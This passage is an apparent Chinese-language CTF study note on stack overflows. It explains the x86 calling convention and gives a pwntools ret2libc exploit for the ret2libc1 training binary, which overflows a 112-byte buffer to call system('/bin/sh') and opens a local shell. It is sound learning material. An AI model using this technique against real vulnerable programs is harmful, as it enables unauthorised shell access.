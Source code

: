 ![image-20220115203356937](栈溢出学习.assets/image-20220115203356937.png)

其实和之前学过的函数调用约定一样了：

1. 在调用子程序之前, 调用者应该保存指定调用者保存 ( Caller-saved )的某些寄存器的内容. 调用者保存的寄存器是 EAX, ECX, EDX. 由于被调用的子程序可以修改这些寄存器, 所以如果调用者在子程序返回后依赖这些寄存器的值, 调用者必须将这些寄存器的值入栈, 然后就可以在子程序返回后恢复它们.
2. 要把参数传递给子程序, 你可以在调用之前把参数入栈. 参数的入栈顺序应该是反着的, 就是最后一个参数应该最先入栈. 随着栈顶内存地址减小, 第一个参数将存储在最低的地址, 在历史上, 这种参数的反转用于允许函数传递可变数量的参数.
3. 要调用子程序, 请使用`call`指令. 该指令将返回地址存到栈上, 并跳转到子程序的代码. 这个会调用子程序, 这个子程序应该遵循下面的被调用者约定.



知道了这些，构造epx即可（偏移直接拿cyclic或者gdb调一下就知道了）：

```python
from pwn import *
#context(log_level="debug",arch="i386",os="linux")
context(log_level="debug",os="linux")
p = process("./ret2libc1")
bin_sh_addr = 0x08048720
system_addr = 0x08048460
payload = flat(['a'*112,system_addr,'a'*4,bin_sh_addr])
#flat模块能将pattern字符串和地址结合并且转为字节模式
p.sendline(payload)
p.interactive()

```

构造出来的`aaaa`相当于system函数的`ret addr`，随便弄一个就行。
